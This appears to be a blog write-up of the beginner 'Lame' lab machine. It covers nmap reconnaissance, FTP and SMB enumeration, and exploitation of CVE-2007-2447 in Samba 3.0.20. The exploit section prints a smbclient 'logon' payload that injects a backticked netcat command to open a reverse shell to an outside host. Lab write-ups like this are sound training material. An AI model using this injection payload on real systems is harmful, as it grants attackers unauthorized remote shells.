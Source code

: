 ```yaml
---
layout: post
title: Lame
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/lame/Lame.png)

Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.

![nmap](/assets/lame/Lame_image_1.png)

Scanned ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.

![svc scan](/assets/lame/Lame_image_2.png)

## FTP - TCP 21
Anonymous login but empty.

![anonymous login](/assets/lame/anonlogin.png)

## SMB - TCP 445
One accessible share.

![shares](/assets/lame/Lame_image_3.png)

Nothing Important

![nada](/assets/lame/Lame4.png)


# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```sh
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```sh
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root

![root](/assets/lame/tmp1719122533136_Lame_image_1.png)

